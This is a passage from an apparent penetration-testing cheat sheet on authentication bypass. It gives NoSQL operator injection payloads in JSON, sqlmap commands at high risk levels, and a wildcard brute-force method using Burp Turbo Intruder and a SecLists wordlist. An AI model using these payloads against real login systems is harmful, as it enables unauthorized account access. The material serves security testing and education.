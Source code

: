 - **Operators in Json**

    If the above payloads not working, try changing to a json format.  
    We also need to change the value of the **Content-Type** to **“application/json”** in the HTTP header.

    ```bash
    # Not equal
    {"username": { "$ne": "xyz" }, "password": { "$ne": "xyz" }}

    # $in: Include in array
    {"username":{"$in":["admin","administrator",]},"password":{"$ne":""}}
    ```

<br />

## SQL Injection with SQLmap

Alternatively, we can automate **SQLi** using **`sqlmap`**.

```bash
# 'req.txt' is a file which can be downloaded in Burp Suite by clicking `save item` on the request.
sqlmap -r req.txt
sqlmap -r req.txt --risk 2 --level 5
sqlmap -r req.txt --risk 3 --level 5
```

Please see [SQL Injection with Sqlmap](sql-injection-with-sqlmap.md) page for details.

<br />

## Wildcard Brute Force

If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.

```bash
username = *
password = *
```

For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.

```bash
username=%s*&password=*
# or
username=*&password=%s*
```

My favorite wordlist for it is the seclists:  
[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt)
